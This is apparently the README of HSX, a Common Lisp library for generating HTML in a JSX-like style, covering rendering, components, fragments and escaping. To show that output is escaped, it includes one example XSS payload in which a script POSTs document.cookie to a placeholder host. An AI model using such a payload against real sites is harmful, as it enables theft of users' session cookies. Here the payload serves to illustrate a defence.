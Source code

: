 # HSX – Hypertext S-expression

**HSX** is a simple and powerful HTML generation library for Common Lisp, inspired by JSX. It allows you to write HTML using native Lisp syntax.

[Practical usage example](https://github.com/skyizwhite/website)

> 🚧 **BETA NOTICE:**  
> This library is still in early development. APIs may change.  
> See [release notes](https://github.com/skyizwhite/hsx/releases) for details.

## ⚙️ How HSX Works

Every tag or component inside an `(hsx ...)` form is transformed into a Lisp expression of the form:

```lisp
(create-element type props children)
```

For example:

```lisp
(hsx
  (article :class "container"
    (h1 "Title")
    (p "Paragraph")
    (~share-button :service :x))
```
Is internally transformed (by macro expansion) into:

```lisp
(create-element :article
                (list :class "container")
                (list (create-element :h1
                                      (list)
                                      (list "Title"))
                      (create-element :p
                                      (list)
                                      (list "Paragraph"))
                      (create-element #'~share-button
                                      (list :service :x)
                                      (list))))
```

## 🚀 Quick Example

```lisp
(hsx
  (div :id "main" :class "container"
    (h1 "Hello, HSX!")
    (p "This is a simple paragraph.")))
```

Generates:

```html
<div id="main" class="container">
  <h1>Hello, HSX!</h1>
  <p>This is a simple paragraph.</p>
</div>
```

## 📝 Rendering

Use `render-to-string` to convert an HSX structure to a string of HTML:

```lisp
(render-to-string
  (hsx ...))
``` 

## 🔐 Escaping text

All elements automatically escape special characters in content to prevent XSS and HTML injection:

```lisp
(hsx
  (div "<script>fetch('evilwebsite.com', { method: 'POST', body: document.cookie })</script>"))
```
Outputs:

```html
<div>&lt;script&gt;fetch(&#x27;evilwebsite.com&#x27;, { method: &#x27;POST&#x27;, body: document.cookie })&lt;&#x2F;script&gt;</div>
```

Use the special tag `raw!` to inject trusted, unescaped HTML:

```lisp
(hsx
  (article (raw! "HTML text here ..."))
```

## 🧩 Fragments

Use `<>` tag to group multiple sibling elements without wrapping them in a container tag:

```lisp
(hsx
  (<>
    (p "One")
    (p "Two")))
```

Outputs:

```html
<p>One</p>
<p>Two</p>
```

Note: `raw!` tag is a fragment that disables HTML escaping for its children.

## 🧱 Components

Define reusable components using `defcomp` macro. Component names must start with `~`.

*Keyword-style*

```lisp
(defcomp ~card (&key title children)
  (hsx
    (div :class "card"
      (h2 title)
      children)))
```

*Property-list style*

```lisp
(defcomp ~card (&rest props)
  (hsx
    (div :class "card"
      (h2 (getf props :title))
      (getf props :children))))
```

### Usage

```lisp
(hsx
  (~card :title "Hello"
    (p "This is a card.")))
```

Outputs:

```html
<div class="card">
  <h2>Hello</h2>
  <p>This is a card.</p>
</div>
```

## 🧬 Logic and Interpolation

You can freely embed Lisp expressions, conditionals, and loops inside HSX forms:

```lisp
(hsx
  (div
    (if (> (random 10) 5)
        (hsx (p "High!"))
        (hsx (p "Low!")))))
```

Or loop:

```lisp
(hsx
  (ul
    (loop :for item :in todo-list :collect
      (hsx (li item))))))
```

## Utils

- `(clsx &rest strs)`: A utility function for constructing class strings conditionally. It removes `nil` from the string list, then joins the remaining strings with spaces.

## 📄 License

MIT License

© 2024 Akira Tempaku

© 2018 Bo Yao (original [flute](https://github.com/ailisp/flute) project)
 
